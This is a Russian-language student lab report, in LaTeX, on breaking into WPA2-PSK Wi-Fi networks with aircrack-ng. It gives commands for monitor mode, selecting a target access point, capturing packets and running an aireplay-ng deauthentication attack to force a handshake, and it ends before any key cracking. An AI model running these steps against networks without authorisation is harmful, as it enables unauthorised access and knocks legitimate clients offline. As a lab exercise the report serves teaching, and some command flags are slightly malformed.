 \documentclass[10pt,a4paper]{article}
\author{Анастасия Тарасова}
\title{Отчет по лабораторной работе №3. Aircrack}
\begin{document}
\maketitle
\section{Цель работы}
Изучить возможности инструмента AirCrack и основы взлома WPA/WPA2, PSK и WEP.
\section{Ход работы}
\subsection{Взлом WPA2 PSK сети}
\subsubsection{Установка беспроводной сетевой карты в режим мониторинга}
Набираем под рутом\\
\verb+iwconfig+ - смотрим все беспроводные интерфейсы\\
\verb+airmon-ng start wlan0+ - ставим интерфейс в режим мониторинга.
\subsubsection{Поиск доступных беспроводных сетей}
\verb+airodump-ng mon0+ - просмотр всех каналов перечисляя точки доступа, находим доступные беспроводные сети.\\
Далее выбираем цель - точку с сильным сигналом и большим количеством трафика. Запишем ее канал и mac адрес.
\subsubsection{Сбор данных}
Пусть адаптер называется mon0 и, например, нужно захватить пакеты с 6 канала в файл под названием data. Для этого нужен airodump-ng.\\
\verb+airodump-ng -c 6 bssid 00:0F:CC:7D:5A:74 -w data mon0+\\
-c 6  - ловим пакеты с 6 канала\\
bssid 00:0F:CC:7D:5A:74 - mac адрес взламываемой точки доступа.\\
Выходным файлом должен быть cap-файл. А на вопрос "Only write WEP
IVs (y/n)" следует ответить нет.\\
Далее необходимо произвести захват входа клиента в сеть. Это необходимо для того, чтобы взломать WPA ключ.\\
\verb+aireplay-ng –deauth 3 -a MAC_IP -c MAC_Client mon0+ - генерирует дополнительный трафик к беспроводной сети, чтобы произвести атаку, для процедура переинициализации клиентов сети.\\
\end{document}
